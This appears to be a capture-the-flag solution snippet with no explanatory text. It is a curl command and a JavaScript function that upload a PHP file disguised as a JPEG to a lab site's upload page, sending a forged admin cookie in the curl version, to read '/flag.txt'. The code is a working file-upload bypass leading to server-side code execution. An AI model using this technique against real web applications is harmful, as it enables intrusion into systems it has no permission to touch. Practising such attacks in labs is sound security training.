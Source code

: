 


```
curl http://{IP_ADDRESS}/index.php\?page=upload \
-F "Upload=Upload" \
-F "uploaded=@test.php;type=image/jpeg" \
-F 'MAX_FILE_SIZE=100000' \
-H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327'
```

OR



async function viewFullUploadResponse() {
  // Get current origin dynamically
  const baseUrl = window.location.origin;
  const uploadUrl = new URL("/index.php?page=upload", baseUrl).href;
  console.log(`[+] Target URL: ${uploadUrl}`);

  // Create PHP payload
  const phpPayload = `<?php
    $flag = file_get_contents('/flag.txt');
    echo "Flag: $flag";
    exit(0);
  ?>`;

  // Create form data for upload
  const formData = new FormData();
  const fileBlob = new Blob([phpPayload], { type: "image/jpeg" });
  const randomName = `image_${Math.floor(Math.random() * 10000)}.php`;
  formData.append("uploaded", fileBlob, randomName);
  formData.append("Upload", "Upload");
  
  console.log(`[+] Attempting to upload disguised PHP file as: ${randomName}`);
  
  try {
    // Send the upload request
    const uploadResponse = await fetch(uploadUrl, {
      method: "POST",
      body: formData
    });
    
    const responseText = await uploadResponse.text();
    
    // Display the FULL response in the console
    console.log("========== FULL SERVER RESPONSE ==========");
    console.log(responseText);
    console.log("==========================================");
    
    // Also create a new window/tab with the response for easier viewing
    const newWindow = window.open();
    newWindow.document.write(`
      <html>
        <head>
          <title>Server Response</title>
          <style>
            body { font-family: monospace; white-space: pre-wrap; }
            .highlight { background-color: yellow; }
          </style>
        </head>
        <body>
          <h2>Full Server Response</h2>
          <div>${responseText}</div>
          
          <script>
            // Add a simple search function
            const search = prompt("Enter text to highlight (or cancel for none):");
            if (search && search.length > 0) {
              const content = document.body.innerHTML;
              document.body.innerHTML = content.replace(
                new RegExp(search, 'gi'),
                '<span class="highlight">$&</span>'
              );
            }
          </script>
        </body>
      </html>
    `);
    
    return responseText;
  } catch (error) {
    console.error(`[!] Error: ${error.message}`);
  }
}

// Execute and see the full response
viewFullUploadResponse();


